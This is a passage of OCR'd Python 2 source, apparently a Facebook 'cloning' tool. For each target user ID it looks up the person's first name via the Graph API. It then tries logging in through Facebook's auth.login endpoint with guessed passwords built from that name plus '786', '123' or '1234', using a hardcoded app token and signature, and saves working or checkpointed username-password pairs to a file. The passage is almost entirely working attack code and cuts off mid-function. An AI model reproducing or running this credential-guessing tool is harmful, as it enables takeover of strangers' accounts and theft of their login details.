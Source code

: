 		menu()
	else:
		print "\x1b[1;91mFill in correctly"
		pilih_super()

	
	print "\033[1;36;96m[⊱⋕⊰] Total ID : \033[1;92m"+str(len(id))
	jalan('\033[1;34;96m[⊱⋕⊰] Mohon Tunggu ')
	titik = ['.   ','..  ','... ']
	for o in titik:
		print("\r\033[1;32;40m[⊱⋕⊰] Cloning\033[1;93m"+o),;sys.stdout.flush();time.sleep(1)
	print "\n\033[1;94m   ❈     \x1b[1;91mTo Stop Process Press CTRL+Z \033[1;94m  ❈"
	print "\033[1;96m⊱⋕⊰══════════════════════════════════════════⊱⋕⊰" 

	def main(arg):
		global oks
		user = arg
		try:
			os.mkdir('out')
		except OSError:
			pass #Dev:Yayan-XD
		try:													
			a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)
			b = json.loads(a.text)
			pass1 = b['first_name']+'786'
			data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass1)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
			q = json.load(data)
			if 'access_token' in q:
				print '\x1b[1;96m[\x1b[1;92mValid_OK\x1b[1;58m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass1
				oks.append(user+pass1)
			else:
				if 'www.facebook.com' in q["error_msg"]:
					print '\x1b[1;96m[\x1b[1;93mInvalid_CP\x1b[1;58m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass1
					cek = open("out/checkpoint.txt", "a")
					cek.write(user+"|"+pass1+"\n")
					cek.close()
					cekpoint.append(user+pass1)
				else:
					pass2 = b['first_name']+'123'
					data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass2)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
					q = json.load(data)
					if 'access_token' in q:
						print '\x1b[1;96m[\x1b[1;92mValid_OK\x1b[1;58m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass2
						oks.append(user+pass2)
					else:
						if 'www.facebook.com' in q["error_msg"]:
							print '\x1b[1;96m[\x1b[1;93mInvalid_CP\x1b[1;12m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass2
							cek = open("out/checkpoint.txt", "a")
							cek.write(user+"|"+pass2+"\n")
							cek.close()
							cekpoint.append(user+pass2)
						else:
							pass3 = b['first_name'] + '1234'
							data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass3)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
							q = json.load(data)